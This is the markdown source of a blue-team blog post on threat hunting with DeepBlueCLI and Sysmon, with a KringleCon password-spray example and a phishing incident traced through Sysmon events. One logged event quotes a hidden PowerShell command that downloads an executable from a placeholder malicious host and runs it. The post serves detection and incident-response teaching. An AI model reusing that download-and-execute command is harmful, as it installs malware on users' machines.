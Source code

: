 ```yaml
---
layout: post
title:  "Threat Hunting with Windows Event Logs & Sysmon"
description: "A brief post on threat hunting using Windows Event Logs"
date:   2020-02-01 11:00:01 +0000
tags: [Blue-Team, SOC, Monitoring, Logging]
---
```


![Hunting with Sysmon](/assets/search.png)

## DeepBlueCLI
A PowerShell Module for Threat Hunting via Windows Event Logs

Specifically:
 * Windows Security
 * Windows System
 * Windows Application
 * Windows PowerShell
 * Sysmon

Code is available here:
 * [https://github.com/sans-blue-team/DeepBlueCLI](https://github.com/sans-blue-team/DeepBlueCLI)
 
### Deepbluecli usage

#### Process local Windows event logs (PowerShell must be run as Administrator):
Default - read all appropriate logs and filter events:
```
.\DeepBlue.ps1
```

#### Process local Windows security event log

```
.\DeepBlue.ps1 -log security
```

#### Process local Windows system event log:
```
.\DeepBlue.ps1 -log system
```

#### Process an evtx file:
```
.\DeepBlue.ps1 .\evtx\new-user-security.evtx 
```

## Deepbluecli working examples from SANS Kringlecon II
We recently used deepbluecli to solve one of the Kringlecon II challenges. Here we will inspect the results of Deepbluecli a little further to show how easy it is to process security events: 

### Password spray attack

```
Date : 19/11/2019 12:21:46
Log : Security
EventID : 4648
Message : Distributed Account Explicit Credential Use
(Password Spray Attack)
Results : The use of multiple user account access attempts with explicit credentials is an indicator of a password spray attack.
Target Usernames: ygoldentrifle esparklesleigh hevergreen Administrator sgreenbells cjinglebunsvtcandybaubles
bbrandyleaves bevergreen lstripyleaves gchocolatewine ltrufflefig wopenslae mstripysleighvpbrandyberry 
civysparkles sscarletpie ftwinklestockings cstripyfluff gcandyfluff smullingfluff hcandysnaps mbrandybells 
twinterfig supatree civypears ygreenpie ftinseltoes smary ttinselbubbles dsparkleleaves
```

## Deepbluecli working examples
There are many more example in the DeepBlueCli github repository thats publicly available here:
 * [https://github.com/sans-blue-team/DeepBlueCLI/tree/master/evtx](https://github.com/sans-blue-team/DeepBlueCLI/tree/master/evtx)

## Common Incident Response Scenario - Phishing
We will see the actions being recorded with sysmon as the user takes the following actions. 

You will see the following Sysmon Event Ids which are capturing these events.
 * **Event ID 1**: Process creation – This event provides extended information about a newly created process. The full command line provides context on the process execution. The ProcessGUID field is a unique value for this process across a domain to make event correlation easier. The hash is a full hash of the file with the algorithms in the HashType field.
 * **Event ID 11**: FileCreate – This event is useful for any file creation events monitoring autostart locations, like the Startup folder, as well as temporary and download directories, which are common places malware drops during initial infection.
 * **Event ID 15**: FileCreateStreamHash -This event logs when a named file stream is created, and it generates events that log the hash of the contents of the file to which the stream is assigned (the unnamed stream), as well as the contents of the named stream. There are malware variants that drop their executables or configuration settings via browser downloads, and this event is aimed at capturing that based on the browser attaching a Zone.Identifier “mark of the web” stream.

Let’s get started:

### Clicking on a Phishing email link
```
EventID: 1
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\OUTLOOK.EXE”
event_data.Image: C:\Program Files\Internet Explorer\iexplore.exe
event_data.CommandLine: “C:\Program Files\Internet Explorer\iexplore.exe” https://myfakecompany.badmalware.com/1.php?
event_data.User: user_6310
```

 * A phished user (user_6310) clicked on a link within outlook which launched Internet explorer and opened the following website: https://example.badmalware.com

### Downloading Word .doc
```
EventID: 11
event_data.Image: C:\Program Files (x86)\Internet Explorer\IEXPLORE.EXE
event_data.TargetFilename: C:\Users\user_6310\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

 * Internet explorer downloaded a file called 5B713D2A.doc

(Note: There might be logs where it might show as .tmp file as the download might not be completed when the log is recorded)

### Opening Word File
```
EventID: 1
event_data.Image: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.TargetFilename: C:\Users\user_6310\AppData\Local\Microsoft\Windows\Temporary Internet Files\Content.IE5\POHSQH12\6E713D2A.doc
```

 * User opened (or possibly the users browser auto_opened) 5B713D2A.doc with Microsoft Word.

### Macro-enabled Word document
```
EventID: 1
event_data.ParentImage: C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE
event_data.ParentCommandLine: “C:\Program Files (x86)\Microsoft Office\Office14\WINWORD.EXE” -Embedding
event_data.Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
event_data.CommandLine: powershell -WindowStyle Hidden $webclient = new-object System.Net.WebClient;$myurls = ‘http://example.badmalware.ru/z3FRJz’.Split(‘,’);$path = $env:temp + ‘\65535.exe’;foreach($myurl in $myurls){try{$webclient.DownloadFile($myurl.ToString(), $path);Start-Process $path;break;}catch{}}
event_data.User: user_6310
```

 * The User enabled macros on this document and a powershell command executed.
 * The powershell command downloads an executable file called 65535.exe from http://Malicioussite.su/z3FRJz 

### Payload downloaded via Powershell
```
event_id: 11
event_data.Image: C:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe
event_data.TargetFilename: C:\Users\user_6310\AppData\Local\Temp\65536.exe
```

 * Powershell downloads and executes the binary 65536.exe to/from C:\Users\user_6310\AppData\Local\Temp\

The badmalware executable is likely now running in memory, and performing additional tasks within the contect of the infected User.  Its possible that the malware could be:
 * sniffing credentials
 * sniffing banking information 
 * bitcoin (or other coin) mining
 * downloading additional malware
 * encrypting the user’s files (ransomware(
 * or establish persistence of some sort. 
At this point you wished you were recording other actions on the endpoint to know exactly what changes were made

## References
 * [https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon](https://docs.microsoft.com/en-us/sysinternals/downloads/sysmon)
 * [https://github.com/MHaggis/sysmon-dfir](https://github.com/MHaggis/sysmon-dfir)
 * [https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1554993664.pdf](https://www.sans.org/cyber-security-summit/archives/file/summit-archive-1554993664.pdf)
 * [https://github.com/sans-blue-team/DeepBlueCLI](https://github.com/sans-blue-team/DeepBlueCLI)